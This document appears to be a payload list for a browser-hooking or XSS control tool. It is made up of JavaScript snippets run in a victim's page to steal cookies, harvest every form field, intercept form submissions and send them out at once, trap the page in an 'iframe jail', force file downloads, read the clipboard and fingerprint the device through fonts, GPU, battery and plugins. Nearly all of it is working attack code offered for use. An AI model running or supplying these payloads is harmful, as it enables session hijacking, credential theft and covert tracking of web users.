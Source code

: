 # Default
#### Grab cookies
```javascript
data=document.cookie;
```
#### Get location url
```javascript
data = document.location.href;
```
#### Get os and cpu info
```javascript
data = navigator.platform;
```
#### Vibrate for one second
###### Only for mobile devices
```javascript
navigator.vibrate(1000); data=0;
```
#### Get misc info (better for mobile)
```javascript
data="vendor: "+navigator.vendorSub+","+navigator.vendor+";Product: "+navigator.productSub+";Core: "+navigator.hardwareConcurrency+";maxTouchPoints: "+navigator.maxTouchPoints;
```
#### Send popup message
```javascript
alert('text'); data=0;
```
#### Grab all inputs from all forms:
```javascript
var kvpairs = [];
var iframe = document.getElementById("ifrm");
if (iframe != null)
    var doc = iframe.contentDocument;
else
    var doc = document;
var forms = doc.getElementsByTagName("form");
for (var j = 0;j < forms.length;j++) {
    var form = forms[j];
    for ( var i = 0; i < form.elements.length; i++ ) {
       var e = form.elements[i];
       kvpairs.push(encodeURIComponent(e.name) + "=" + encodeURIComponent(e.value));
    }
}
data = kvpairs.join("&");
```

#### Get information about plugins
```javascript
data = JSON.stringify(navigator.plugins);
```

#### Get browser information
```javascript
data = navigator.appName+" "+navigator.appCodeName+" "+navigator.appVersion;
```
#### Enumerate navigator properties
```javascript
data="";for (var p in navigator) data+=p.toString()+";";
```
#### Get screen information
```javascript
data="width: "+screen.width+",height: "+screen.height+",colorDepth: "+screen.colorDepth+",pixelDepth: "+screen.pixelDepth;
```
#### Get battery information
```javascript
var Battery=function(){function s(e){n=e,i(n)}function o(t){for(var n in e.split(" "))t.addEventListener(n,s)}var e="chargingchange chargingtimechange dischargingtimechange levelchange",t=navigator.battery||navigator.mozBattery||navigator.getBattery,n=null,r=function(){},i=function(){};return self.getStatus=function(e){n==="not supported"?e(null,n):n?e(n):r=e},self.onUpdate=function(e){i=e},t instanceof Function?t.call(navigator).then(function(e){n=e,r(n),o(n)},function(){n="not supported"}):t?(n=t,o(t)):n="not supported",self}(Battery||{});
Battery.getStatus(function(status, error) {
  if(error) {
    console.error('Battery status is not supported');
    return;
  }
  data='Level: ' + Math.floor(status.level * 100) + '%;Charging: ' + status.charging+';Time until charged: ' + status.chargingTime+';Battery time left: ' + status.dischargingTime;
});
```
#### Delete client registration
```javascript
eraseCookie('_uidk'); localStorage.clear(); data=0;
```
#### Iframe jail
```javascript
document.body.innerHTML = "<div style='padding:0;margin:0;border:none;width:100%;height:100%;position:absolute;left:0;top:0;overflow:hidden;'><iframe id='ifrm' onload='window.history.replaceState(null, null, this.contentWindow.location.href);' style='padding:0;margin:0;border:none;width:100%;height:100%;left:0;top:0;' src='"+document.location.href+"'></iframe></div>"; data='captured';
```
#### Force (every kind of) file to be downloaded (html5)
```javascript
var fdwnl = document.createElement("a"); fdwnl.href='http://yoursite.com/yourfile.html'; fdwnl.id='fdwnl'; var dwn=document.createAttribute('download');fdwnl.setAttributeNode(dwn); fdwnl.click();
```
#### Force an update of the client information retrieved server side
```javascript
eraseCookie('_uidku');data=0;
```
#### Intercept forms submit
```javascript
var iframe = document.getElementById("ifrm");
if (iframe != null)
    var doc = iframe.contentDocument;
else
    var doc = document;
var forms = doc.getElementsByTagName("form");
for (var j = 0;j < forms.length;j++) {
    var form = forms[j];
    form.onsubmit = function(){ inthandler(this); }
}
function inthandler(form) {
    var kvpairs = [];
    data = "form submitted! id="+form.id+"&name="+form.name+"&method="+form.method+"&action="+form.action+"&";
    for ( var i = 0; i < form.elements.length; i++ ) {
       var e = form.elements[i];
       kvpairs.push(encodeURIComponent(e.name) + "=" + encodeURIComponent(e.value));
    }
    data = kvpairs.join("&");
    /* Force to send data instantly */
    reloadjs(uid,data);
}
```
# Extra
#### Detect installed font (and the os)
```javascript
var Detector = function() {
		// a font will be compared against all the three default fonts.
		// and if it doesn't match all 3 then that font is not available.
		var baseFonts = ['monospace', 'sans-serif', 'serif'];

		//we use m or w because these two characters take up the maximum width.
		// And we use a LLi so that the same matching fonts can get separated
		var testString = "mmmmmmmmmmlli";

		//we test using 72px font size, we may use any size. I guess larger the better.
		var testSize = '72px';

		var h = document.getElementsByTagName("body")[0];
		// create a SPAN in the document to get the width of the text we use to test
		var s = document.createElement("span");
		s.style.fontSize = testSize;
		s.innerHTML = testString;
		var defaultWidth = {};
		var defaultHeight = {};

		for (var index in baseFonts) {
		    //get the default width for the three base fonts
		    s.style.fontFamily = baseFonts[index];
		    h.appendChild(s);
		    defaultWidth[baseFonts[index]] = s.offsetWidth; //width for the default font
		    defaultHeight[baseFonts[index]] = s.offsetHeight; //height for the defualt font
		    h.removeChild(s);
		}

		function detect(font) {
		    var detected = false;
		    for (var index in baseFonts) {
		        s.style.fontFamily = font + ',' + baseFonts[index]; // name of the font along with the base font for fallback.
		        h.appendChild(s);
		        var matched = (s.offsetWidth != defaultWidth[baseFonts[index]] || s.offsetHeight != defaultHeight[baseFonts[index]]);
		        h.removeChild(s);
		        detected = detected || matched;
		    }
		    return detected;
		}
		this.detect = detect;
	}
var fonts = [];
var d = new Detector();
/* Windows fonts */
fonts.push("Georgia"); fonts.push("Times New Roman"); fonts.push("Tahoma"); fonts.push("Verdana");
/* MAC fonts */
fonts.push("Apple Chancery"); fonts.push("Apple Symbols"); fonts.push("Apple Braille");
/* Linux fonts */
fonts.push("Helvetica"); fonts.push("Utopia"); fonts.push("FreeMono"); fonts.push("FreeSerif");
data="";
for (i = 0; i < fonts.length; i++) {
    if(d.detect(fonts[i])) data += fonts[i]+";";
}
```
#### Get memory information
###### Supported only by some old browser
```javascript
data = "totalJSHeapSize="+console.memory.totalJSHeapSize+";jsHeapSizeLimit="+console.memory.jsHeapSizeLimit+";usedJSHeapSize="+console.memory.usedJSHeapSize;
```
#### Get GPU information
##### Supported only by some (probably old) browser
```javascript
var canvas = document.createElement("canvas");
gl = canvas.getContext("experimental-webgl");
if (gl==null) data="Unable to retrieve this information";
else data = "GPU: "+gl.getParameter(gl.getExtension("WEBGL_debug_renderer_info").UNMASKED_RENDERER_WEBGL)+" "+gl.getParameter(gl.getExtension("WEBGL_debug_renderer_info").UNMASKED_VENDOR_WEBGL);
```
#### Get text in the clipboard
###### Only for IE, ask for permission
```javascript
data=window.clipboardData.getData('Text');
```

